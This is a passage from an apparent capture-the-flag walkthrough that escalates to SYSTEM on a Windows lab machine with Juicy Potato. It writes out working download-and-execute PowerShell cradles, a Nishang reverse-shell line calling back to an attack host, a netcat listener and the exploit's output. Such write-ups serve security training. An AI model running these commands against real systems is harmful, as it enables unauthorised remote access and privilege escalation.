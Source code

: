 Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/JuicyPotato.exe', 'C:\Users\merlin\Desktop\jp.exe')
```

Run the executable file to view the arguments it takes.

![](https://miro.medium.com/max/971/1*iiNs88XZklfmeYGSZIGwxQ.png)

It requires 3 mandatory arguments.

* **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.

First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.

```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/shell.bat', 'C:\Users\merlin\Desktop\shell.bat')
```

Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
PS C:\Users\merlin\Desktop> ./jp.exe -t * -p shell.bat -l 4444Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK
```
